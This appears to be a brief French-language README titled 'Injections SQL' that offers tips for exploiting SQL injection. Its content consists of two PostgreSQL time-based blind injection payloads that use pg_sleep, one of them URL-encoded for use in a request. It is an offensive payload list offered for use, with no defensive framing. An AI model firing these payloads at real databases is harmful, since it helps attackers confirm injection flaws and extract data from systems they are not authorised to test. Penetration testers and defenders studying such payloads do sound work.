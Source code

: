 # Injections SQL

> Tips pour l'exploitation d'injections SQL



### 1. Payloads

- **Blind** (postgresql) : 

```sql
0 and (123456=(select 123456 from pg_sleep(20)))
```

```sql
0+and+('a'=(SELECT+case+when(1=1)+then+cast(PG_SLEEP(60)as+varchar)+else+'a'+end))
```

